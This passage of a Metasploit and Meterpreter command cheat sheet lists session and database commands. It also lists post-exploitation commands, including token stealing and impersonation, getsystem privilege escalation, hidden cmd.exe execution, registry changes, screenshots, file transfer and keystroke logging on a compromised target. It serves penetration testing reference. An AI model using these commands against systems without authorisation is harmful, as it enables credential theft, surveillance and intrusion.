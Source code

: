 | `sessions -c <cmd>`                              | Execute a command on all live Meterpreter sessions.          |
| `sessions -u <sessionID>`                        | Upgrade a normal Win32 shell to a Meterpreter console.       |
| `db_create <name>`                               | Create a database to use with database-driven attacks (example: db_create autopwn). |
| `db_connect <name>`                              | Create and connect to a database for driven attacks (example: db_connect autopwn). |
| `db_nmap`                                        | Use Nmap and place results in a database. (Normal Nmap syntax is supported, such as –sT –v –P0.) |
| `db_destroy`                                     | Delete the current database.                                 |
| `db_destroy  <user:password@host:port/database>` | Delete database using advanced options.                      |

------

## Meterpreter Commands

| **Command**                                           | **Description**                                              |
| ----------------------------------------------------- | ------------------------------------------------------------ |
| `help`                                                | Open Meterpreter usage help.                                 |
| `run <scriptname>`                                    | Run Meterpreter-based scripts; for a full list check the scripts/meterpreter directory. |
| `sysinfo`                                             | Show the system information on the compromised target.       |
| `ls`                                                  | List the files and folders on the target.                    |
| `use priv`                                            | Load the privilege extension for extended Meterpreter libraries. |
| `ps`                                                  | Show all running processes and which accounts are associated with each process. |
| `migrate <proc. id>`                                  | Migrate to the specific process ID (PID is the target process ID gained from the ps command). |
| `use incognito`                                       | Load incognito functions. (Used for token stealing and impersonation on a target machine.) |
| `list_tokens -u`                                      | List available tokens on the target by user.                 |
| `list_tokens -g`                                      | List available tokens on the target by group.                |
| `impersonate_token <DOMAIN_NAMEUSERNAME>`             | Impersonate a token available on the target.                 |
| `steal_token <proc. id>`                              | Steal the tokens available for a given process and impersonate that token. |
| `drop_token`                                          | Stop impersonating the current token.                        |
| `getsystem`                                           | Attempt to elevate permissions to SYSTEM-level access through multiple attack vectors. |
| `shell`                                               | Drop into an interactive shell with all available tokens.    |
| `execute -f <cmd.exe> -i`                             | Execute cmd.exe and interact with it.                        |
| `execute -f <cmd.exe> -i -t`                          | Execute cmd.exe with all available tokens.                   |
| `execute -f <cmd.exe> -i -H -t`                       | Execute cmd.exe with all available tokens and make it a hidden process. |
| `rev2self`                                            | Revert back to the original user you used to compromise the target. |
| `reg <command>`                                       | Interact, create, delete, query, set, and much more in the target’s registry. |
| `setdesktop <number>`                                 | Switch to a different screen based on who is logged in.      |
| `screenshot`                                          | Take a screenshot of the target’s screen.                    |
| `upload <filename>`                                   | Upload a file to the target.                                 |
| `download <filename>`                                 | Download a file from the target.                             |
| `keyscan_start`                                       | Start sniffing keystrokes on the remote target.              |
| `keyscan_dump`                                        | Dump the remote keys captured on the target.                 |